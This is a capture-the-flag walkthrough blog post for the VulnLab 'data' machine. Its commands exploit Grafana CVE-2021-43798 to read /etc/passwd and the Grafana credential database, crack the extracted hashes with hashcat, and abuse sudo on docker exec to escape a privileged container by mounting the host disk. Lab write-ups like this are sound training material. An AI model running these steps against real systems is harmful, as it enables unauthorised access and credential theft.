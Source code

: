 ```yaml
---
layout: post
title:  "VulnLab | data"
description: "walkthrough of data machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ./assets/img/ctf/vulnlab/data/data1.png
  alt: "data.vl"
category: "VulnLab"
tags: ["Linux", "CVE-2021-43798", "grafana database", "docker container"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[data](https://www.vulnlab.com/machines) is 

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.95.219
```
![rustscan](./assets/img/ctf/vulnlab/data/data2.png)

### Services Scanning
```bash
nmap -p22,3000 -sC -sV -v -oN data.full 10.10.95.219
```
### Hostname
```bash
echo '10.10.95.219  data.vl'  >> /etc/hosts
```

## Foothold

### Port 3000
![grafana](./assets/img/ctf/vulnlab/data/data3.png)

```text
grafana v8.0.0 => CVE-2021-43798 => Unauthenticated file Read
```
```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/passwd -o test.txt
```
![/etc/passwd](./assets/img/ctf/vulnlab/data/data4.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /var/lib/grafana/grafana.db -o grafana.db
```
![grafana.db](./assets/img/ctf/vulnlab/data/data5.png)

```sql
select email,password,salt from user;
```
![grafana.db](./assets/img/ctf/vulnlab/data/data6.png)

```bash
python3 grafana2hashcat.py -o hashcat.txt hashes.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data7.png)

```sh
hashcat -m 10900 hashcat.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data8.png)

### Port 22
```bash
ssh boris@data.vl
```
![boris ssh](./assets/img/ctf/vulnlab/data/data9.png)


## Privilege Escalation
```sh
sudo -l
```
![docker exec](./assets/img/ctf/vulnlab/data/data10.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/hosts -o test.txt
```
![container hostname](./assets/img/ctf/vulnlab/data/data11.png)

```bash
sudo /snap/bin/docker exec --user root --privileged -it e6ff5b1cbc85 sh
```
![container hostname](./assets/img/ctf/vulnlab/data/data12.png)

```bash
cat /proc/1/status | grep -i "seccomp"
df -h
```
![container hostname](./assets/img/ctf/vulnlab/data/data13.png)
```bash
mkdir -p /mnt/juggernaut 
mount /dev/xvda1 /mnt/juggernaut
ls -l /mnt/juggernaut
```
![container hostname](./assets/img/ctf/vulnlab/data/data14.png)

```bash
ls -l /mnt/juggernaut/root
```
![container hostname](./assets/img/ctf/vulnlab/data/data15.png)


## Kill Chain Summary
1. Exploit CVE-2021-43798 to get File Read Capabilities on the box.
2. Read grafana database.
3. Using grafana2hashcat and hashcat crack grafana database entries.
4. User boris is allowed to run `/snap/bin/docker exec *` as root without a password.
5. Using the docker exec command abuse the grafana container to become root.


## References
1. FootHold<br>
[exploit](https://gist.github.com/bryanmcnulty/0f013fb75e94140bae70de2b0e986e45)<br>
[grafana2hashcat](https://github.com/iamaldi/grafana2hashcat)<br>
[grafana_exploits](https://github.com/persees/grafana_exploits)<br>

2. Priv Escalation<br>
[docker exec](https://docs.docker.com/reference/cli/docker/container/exec/)<br>
[privileged container breakout](https://juggernaut-sec.com/docker-breakout-lpe/)<br>